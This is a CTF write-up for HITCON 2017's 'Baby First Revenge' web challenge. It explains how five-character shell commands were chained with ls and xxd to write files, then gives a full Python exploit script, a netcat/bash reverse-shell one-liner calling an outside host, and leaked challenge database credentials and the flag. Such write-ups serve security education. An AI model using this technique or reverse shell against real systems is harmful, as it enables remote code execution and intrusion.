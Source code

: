 ```yaml
---
layout: post
title: "Hitcon CTF 2017 Quals: Baby First Revenge (web 172)"
author: yrlf
categories: writeup
tags: [cat/web, tool/python-requests, tool/ipython]
---
```


* **Category:** web
* **Points:** 172
* **Description:**

> Do you remember [BabyFirst](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst) from HITCON CTF 2015?
>
> This is the harder version!
> 
> [http://52.199.204.34/](http://52.199.204.34/)

## Write-up

This was the first challenge I tried this CTF, and it was a really fun one.

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

The website is a PHP script that allows you to execute shell commands up to 5 characters in length
in a folder, where we have write access. We can also request the files there and download them.

I knew that bash allows you to create empty files with `>file`, so we used that as a starting point.

At first, we tried writing text into files with `ls>y`, but that didn't lead us very far, because the shell creates the file `y` before `ls` runs, so `y` would contain lots of unwanted `y` characters between our filenames

After quite a long time, we found out, that `xxd -p -r` ignores all non-hex characters, and that we could use `ls>>y` to slowly build up a file containing arbitrary hex digits and lots of `y` characters.

And for executing `xxd -p -r infile outfile` we just create a `-p` and a `-r` file and execute `xxd *`. We just have to make sure that our infile and outfile sort after `-p` and `-r`.

for example, writing "HELLO" to a file would work like this

```sh
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```

I then wrote a script that writes arbitrary files and executes them as a shell command with `sh z`.

We then executed a reverse shell with

```sh
mkfifo f; nc <host> <port> <f | bash >f 2>f
```

and looked for the flag.

We found a `README.txt` in the home directory of user fl4444g, which contained this:

```
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr
```

After that, we used mysql to get the flag
```
$ mysql -ufl4444g -pSugZXUtgeJ52_Bvr
mysql> SHOW DATABASES;
Database
information_schema
fl4gdb
mysql> use fl4gdb;
SHOW TABLES;
Tables_in_fl4gdb
this_is_the_fl4g
mysql> SELECT * FROM this_is_the_fl4g;
secret
hitcon{idea_from_phith0n,thank_you:)}
```

## Script

The script we used (via ipython "run script") to get a shell on the system.

```python
import requests as rq
import hashlib as h
import binascii as ba

url = "http://52.199.204.34/"
ipify = "https://api.ipify.org"

def get_ip():
    r = rq.get(ipify)
    return r.text

folder = h.md5(b"orange" + get_ip().encode()).hexdigest()

def reset():
    rq.get(url, params = {
        "reset": 1
    })

def cmd(c):
    rq.get(url, params = {
        "cmd": c
    })

def read(f):
    r = rq.get(url + "sandbox/" + folder + "/" + f)
    if r.status_code == 200:
        return r.text

def long_cmd(cmd_text):
    reset()
    cmd_bytes = cmd_text.encode()
    for i in range(0, len(cmd_bytes), 2):
        cur_bytes = cmd_bytes[i:i + 2]
        print("writing '{}'".format(cur_bytes.decode()))
        hex_chars = ba.hexlify(cur_bytes).decode()
        cmd(">" + hex_chars)
        cmd("ls>>y")
        cmd("rm " + hex_chars[0] + "*")
    cmd(">z")
    cmd(">-p")
    cmd(">-r")
    cmd("xxd *")
    cmd("sh z")
    return read("o")

def shell(cmd_text):
    print(long_cmd(cmd_text))

def rshell(host, port):
    long_cmd("mkfifo f; nc {} {} <f | bash >f 2>f".format(host, port))
```

